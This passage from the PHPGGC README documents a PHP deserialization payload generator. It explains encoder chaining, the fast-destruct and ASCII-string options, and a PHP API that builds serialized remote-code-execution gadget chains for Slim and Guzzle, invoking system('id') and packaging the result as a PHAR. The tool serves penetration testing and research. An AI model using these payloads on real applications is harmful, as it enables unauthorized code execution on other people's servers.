 The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will base64 the payload, then URLencode it twice.


## Advanced: Enhancements

### Fast destruct

PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first.

```
$ ./phpggc -f -s slim/rce1 system id
a:2:{i:7;O:18:"Slim\Http\Response":2:{s:10:"...
```

### ASCII Strings

Uses the `S` serialization format instead of the standard `s`. This replaces every non-ASCII value to an hexadecimal representation:
`s:5:"A<null_byte>B<cr><lf>";̀` -> `S:5:"A\00B\09\0D";`
This can be useful when for some reason non-ascii characters are not allowed (NULL BYTE for instance). Since payloads generally contain them, this makes sure that the payload consists only of ASCII values.
*Note: this is experimental and it might not work in some cases.*


# API

Instead of using PHPGGC as a command line tool, you can program PHP scripts:

```php
<?php

# Include PHPGGC
include("phpggc/lib/PHPGGC.php");

# Include guzzle/rce1
$gc = new \GadgetChain\Guzzle\RCE1();

# Always process parameters unless you're doing something out of the ordinary
$parameters = $gc->process_parameters([
	'function' => 'system',
	'parameter' => 'id',
]);

# Generate the payload
$object = $gc->generate($parameters);

# Most (if not all) GC's do not use process_object and process_serialized, so
# for quick & dirty code you can omit those two 
$object = $gc->process_object($object);

# Serialize the payload
$serialized = serialize($object);
$serialized = $gc->process_serialized($serialized);

# Display it
print($serialized . "\n");

# Create a PHAR file from this payload
$phar = new \PHPGGC\Phar\Tar($serialized);
```